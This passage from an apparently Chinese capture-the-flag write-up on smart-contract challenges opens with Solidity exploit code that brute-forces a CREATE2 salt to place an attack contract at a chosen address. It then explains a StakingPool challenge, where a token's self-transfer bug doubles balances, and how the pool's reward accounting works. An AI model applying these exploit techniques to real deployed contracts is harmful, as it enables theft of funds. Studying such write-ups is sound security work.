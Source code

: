 ```solidity
        return rex;
    }
}

contract hack
{
    address public to;
    address public pxa;
    constructor(address v)
    {
        to=v;
    }
    function setup() public
    {
        uint salt=0;
        bytes memory bytecode = type(hacker).creationCode;
        bytes memory initcode=abi.encodePacked(bytecode, abi.encode());
        bytes32 cch=keccak256(initcode);
        for(uint i=0;i<10000;i++)
        {
            bytes32 hash = keccak256(
            abi.encodePacked(bytes1(0xff), address(this), i, cch));
            uint hashv=uint160(uint256(hash));
            if(hashv%1000==137)
            {
                salt=i;
                pxa=address(new hacker{salt: bytes32(salt)}());
                return;
            }
        }
        revert();
    }
    function work() public
    {
        hacker(pxa).work();
    }
}
```

## StakingPool

非常有意思的题。难度主要在理解代码逻辑上，理解之后并不难。本题的核心是StakingPools合约，里面使用了三个Token，stakedToken、rewardToken和rewardToken2。我们需要获得所有的rewardToken和比所有的还要更多的rewardToken2。经过简单审计容易发现，前两个Token是标准实现，而rewardToken2使用的V2实现的_transfer方法与前面不一致。不难发现这里面有个经典错误，当我们取from=to的时候就能让from的balance凭空直接增加amount，因此我们可以做到调用一次总余额就翻倍。

那么我们只需要研究如何从StakingPools掏出所有reward即可。先看池子计算reward的逻辑，为了简化我们忽略掉一些常数：池子维护了一个变量accTokenPerShare，表示假如有一个Token的存款，从开始计算奖励一直存到现在，应该收到多少reward。假设现在有一个人存了amount个Token，上一次领取奖励的时间是t1，对应accTokenPerShare1。那么当这个人在t2领取奖励时，其应该收到`(accTokenPerShare2-accTokenPerShare1)*amount`这么多奖励。为了实现更简洁，我们可以对每个用户存储一下上次领取奖励时`accTokenPerShare*amount`，即题目中的`rewardDebt`。

accTokenPerShare的维护并不困难，我们只需要在几乎所有操作里面都加上_updatePool的调用。该函数会获取池子内的Token总量，以及上一次更新的时间，进而算出这段时间内每一份存款应该分到多少reward，然后加到accTokenPerShare上。具体调用顺序细节其实也值得去注意，本题的实现几乎是非常完美的，可以仔细思考一下。
